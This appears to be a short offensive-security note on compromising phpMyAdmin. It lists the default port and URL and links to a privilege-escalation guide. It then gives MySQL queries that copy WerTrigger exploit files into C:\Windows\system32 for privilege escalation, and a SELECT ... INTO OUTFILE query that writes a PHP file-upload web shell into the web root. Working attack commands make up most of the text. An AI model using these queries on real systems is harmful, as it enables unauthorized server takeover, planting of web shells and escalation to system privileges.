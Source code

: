 ### default port
80
### default url
http://ip:port/phpmyadmin
### phpmyadmin admin account to get system shell
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md  
![image](https://github.com/KiritoLoveAsuna/WebApplicationSecurity/assets/38044499/2ff1fa35-dabd-4094-b6f1-8c4bfa05b076)   
Now, we are going to use the Privileged Write to move all of these files to C:\windows\system32 using MySQL.
```
select load_file('C:\\xampp\\htdocs\\phoneinfo.dll') into dumpfile 'C:\\Windows\\system32\\phoneinfo.dll';
select load_file('C:\\xampp\\htdocs\\Report.wer') into dumpfile 'C:\\Windows\\system32\\Report.wer';
select load_file('C:\\xampp\\htdocs\\WerTrigger.exe') into dumpfile 'C:\\Windows\\system32\\WerTrigger.exe';
```
![image](https://github.com/KiritoLoveAsuna/WebApplicationSecurity/assets/38044499/31df7857-e1f2-481d-88af-82142a8d164f)  
Now we can move into C:\windows\system32 and execute WerTrigger.exe

### Uploading shell via phpmyadmin
```
SELECT 
"<?php echo \'<form action=\"\" method=\"post\" enctype=\"multipart/form-data\" name=\"uploader\" id=\"uploader\">\';echo \'<input type=\"file\" name=\"file\" size=\"50\"><input name=\"_upl\" type=\"submit\" id=\"_upl\" value=\"Upload\"></form>\'; if( $_POST[\'_upl\'] == \"Upload\" ) { if(@copy($_FILES[\'file\'][\'tmp_name\'], $_FILES[\'file\'][\'name\'])) { echo \'<b>Upload Done.<b><br><br>\'; }else { echo \'<b>Upload Failed.</b><br><br>\'; }}?>"
INTO OUTFILE 'C:/wamp/www/uploader.php';
```
Then access http://ip:port/uploader.php
